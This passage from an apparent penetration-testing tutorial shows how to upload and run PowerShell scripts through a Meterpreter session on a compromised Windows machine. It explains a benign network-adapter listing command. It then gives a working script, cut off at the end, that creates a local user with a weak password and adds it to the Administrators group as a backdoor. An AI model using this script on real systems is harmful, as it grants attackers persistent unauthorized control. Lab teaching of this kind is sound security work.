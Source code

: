 ### 8.5 Uploading and Running PowerShell Scripts

Now I will create a very simple PowerShell script and run it on the compromised machine

make sure you are in the *meterpreter*.

I made a file called **getnic.ps1**

in the file is a **PowerShell** Command. 

```PowerShell
Get-NetAdapter -Name * -IncludeHidden
```

***PowerShell Script Breakdown***
`Get-NetAdapter -Name * -IncludeHidden`

`Get-NetAdapter`
- **Function**: Retrieves basic properties of network adapters.
- **Details**: Shows adapter name, interface description, status, MAC address, and speed.

`-Name *`
- **Parameter**: `-Name`
- **Function**: Specifies which network adapters to get.
- **Usage**: The use of `*` (asterisk) indicates a wildcard selection, meaning all network adapters are included.

`-IncludeHidden`
- **Parameter**: `-IncludeHidden`
- **Function**: Includes network adapters not visible in the Network Connections folder.
- **Usage**: Shows hidden adapters like those not in use, system devices, or virtual adapters.

This command is particularly useful for:
- Detailed network diagnostics.
- Configuration tasks in environments with virtual or hidden network devices.


We will now upload the file via the meterpreter 

![[Pasted image 20231113035249.png]]
> Figure 6 | uploading PowerShell script


Go back into shell from meterpreter to run the PowerShell script. shell | powershell

you can really have a lot of fun with this, you can even create a script that adds a user as administrator 

```powershell
# PowerShell script to add a new administrator user on older versions of Windows

# Defining the username and password
$username = "00xNetrunner"
$password = "123456"

# Creating the new local user using net user
$createUser = net user $username $password /add
if ($LASTEXITCODE -eq 0) {
    Write-Host "User $username created successfully."
} else {
    Write-Host "Failed to create user $username."
    exit
}

# Adding the user to the Administrators group using net localgroup
$addToGroup = net localgroup Administrators $username /add
if ($LASTEXITCODE -eq 0) {
    Write-Host "User $username added to Administrators group successfully."
} else {
    Write-Host "Failed to add $username to Administrators group."
```